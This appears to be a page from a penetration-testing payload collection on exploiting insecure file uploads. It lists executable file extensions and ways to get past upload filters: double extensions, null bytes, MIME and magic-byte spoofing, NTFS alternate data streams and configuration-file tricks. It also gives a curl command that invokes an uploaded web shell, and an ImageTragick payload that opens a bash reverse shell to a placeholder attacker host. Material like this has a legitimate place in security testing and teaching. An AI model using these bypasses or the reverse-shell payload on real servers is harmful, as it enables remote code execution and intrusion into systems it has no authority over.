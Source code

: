 ```yaml
---
title: Upload Insecure Files
categories: [Injection, Files]
tags: [Exploit, Injection, form, POST]
---
```

# Upload

Uploaded files may pose a significant risk if not handled correctly. A remote attacker could send a multipart/form-data POST request with a specially-crafted filename or mime type and execute arbitrary code.

## Summary

* [Tools](#tools)
* [Exploits](#exploits)
    * [PHP Extension](#php-extension)
    * [Other extensions](#other-extensions)
    * [Upload tricks](#upload-tricks)
    * [Picture upload with LFI](#picture-upload-with-lfi)
    * [Configuration Files](#configuration-files)
    * [CVE - Image Tragik](#cve---image-tragik)
    * [ZIP Archive](#zip-archive)
* [References](#references)


## Tools
- [Fuxploider](https://github.com/almandin/fuxploider)
- [Burp> Upload Scanner](https://portswigger.net/bappstore/b2244cbb6953442cb3c82fa0a0d908fa)

## Exploits

### PHP Extension

* Default PHP extensions
    ```powershell
    .php
    .php3
    .php4
    .php5
    .php7
    ```
* Less known extensions
    ```powershell
    .pht
    .phps
    .phar
    .phpt
    .pgif
    .phtml
    .phtm
    .inc
    ```
* Double extensions
    ```powershell
    .jpeg.php
    .jpg.php
    .png.php
    .*.php
    ```

### Other extensions

* asp : `.asp, .aspx, .cer and .asa (IIS <= 7.5), shell.aspx;1.jpg (IIS < 7.0)`
* perl: `.pl, .pm, .cgi, .lib`
* jsp : `.jsp, .jspx, .jsw, .jsv, .jspf`
* Coldfusion: `.cfm, .cfml, .cfc, .dbm`

### Upload tricks

- Use double extensions : `.jpg.php`
- Use reverse double extension (useful to exploit Apache misconfigurations where anything with extension .php, but not necessarily ending in .php will execute code): `.php.jpg`
- Mix uppercase and lowercase : `.pHp, .pHP5, .PhAr`

- Null byte (works well against `pathinfo()`)
    * .php%00.gif
    * .php\x00.gif
    * .php%00.png
    * .php\x00.png
    * .php%00.jpg
    * .php\x00.jpg
- Special characters
    * file.php...... (In Windows when a file is created with dots at the end those will be removed)
    * file.php%20
- Mime type, change `Content-Type : application/x-php` or `Content-Type : application/octet-stream` to `Content-Type : image/gif`
    * `Content-Type : image/gif`
    * `Content-Type : image/png`
    * `Content-Type : image/jpeg`
- [Magic Bytes](https://en.wikipedia.org/wiki/List_of_file_signatures)
    * Sometimes applications identify file types based on their first signature bytes. Adding/replacing them in a file might trick the application.
- Using NTFS alternate data stream (ADS) in Windows. In this case, a colon character ":" will be inserted after a forbidden extension and before a permitted one. As a result, an empty file with the forbidden extension will be created on the server (e.g. "file.asax:.jpg"). This file might be edited later using other techniques such as using its short filename. The "::$data" pattern can also be used to create non-empty files. Therefore, adding a dot character after this pattern might also be useful to bypass further restrictions (.e.g. "file.asp::$data.")

### Picture upload with LFI

Valid pictures hosting PHP code. Upload the picture and use a local file inclusion to execute the code. The shell can be called with the following command : `curl 'http://localhost/test.php?0=system' --data "1='ls'"`.

- Picture Metadata, hide the payload inside a comment tag in the metadata.
- Picture Resize, hide the payload within the compression algorithm in order to bypass a resize. Also defeating `getimagesize()` and `imagecreatefromgif()`.

### Configuration Files

If you are trying to upload files to a PHP server, take a look at the .htaccess trick to execute code.
If you are  trying to upload files to an ASP server, take a look at the .config trick to execute code.

Configuration files examples
- .htaccess
- web.config
- httpd.conf
- \_\_init\_\_.py


### CVE - Image Tragik

Upload this content with an image extension to exploit the vulnerability (ImageMagick , 7.0.1-1)

```powershell
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

More payload in the folder `Picture Image Magik`

### ZIP archive

When a ZIP/archive file is automatically decompressed after the upload

* Zip Slip: directory traversal to write a file somewhere else

## References

* Bulletproof Jpegs Generator - Damien "virtualabs" Cauquil
* [BookFresh Tricky File Upload Bypass to RCE, NOV 29, 2014 - AHMED ABOUL-ELA](https://secgeek.net/bookfresh-vulnerability/)
* [Encoding Web Shells in PNG IDAT chunks, 04-06-2012, phil](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/)
* [La PNG qui se prenait pour du PHP, 23 février 2014](https://phil242.wordpress.com/2014/02/23/la-png-qui-se-prenait-pour-du-php/)
* [File Upload restrictions bypass - Haboob Team](https://www.exploit-db.com/docs/english/45074-file-upload-restrictions-bypass.pdf)
